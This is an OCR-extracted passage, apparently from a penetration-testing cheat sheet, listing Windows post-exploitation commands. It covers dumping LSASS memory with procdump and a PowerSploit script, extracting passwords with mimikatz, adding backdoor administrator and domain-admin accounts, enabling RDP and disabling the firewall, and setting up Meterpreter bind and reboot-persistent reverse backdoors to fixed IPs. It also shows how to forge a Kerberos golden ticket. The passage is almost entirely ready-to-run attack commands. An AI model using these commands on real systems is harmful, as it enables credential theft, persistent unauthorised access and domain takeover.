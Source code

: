                     from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords
        Persistence:
	        Add User:  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add
			Meterpreter:  run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
				Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
		RDP:
		    Enable RDP Access:
			reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
			netsh firewall set service remoteadmin enable
			netsh firewall set service remotedesktop enable
		    Add RDP User:  net localgroup "Remote Desktop Users" <USER> /add
		    Meterpreter:  run post/windows/manage/enable_rdp username=admin,password=password
		    	Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__....rc
		Telnet:  run gettelnet [-e  //  -u user -p pass]
		Turn Off Firewall:
		    Newer:  netsh advfirewall set allprofiles state off
		    Older:  netsh firewall set opmode disable
		Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
			Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
		Meterpreter Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
			kerberos_ticket_list; kerberos_ticket_use /tmp/ticket

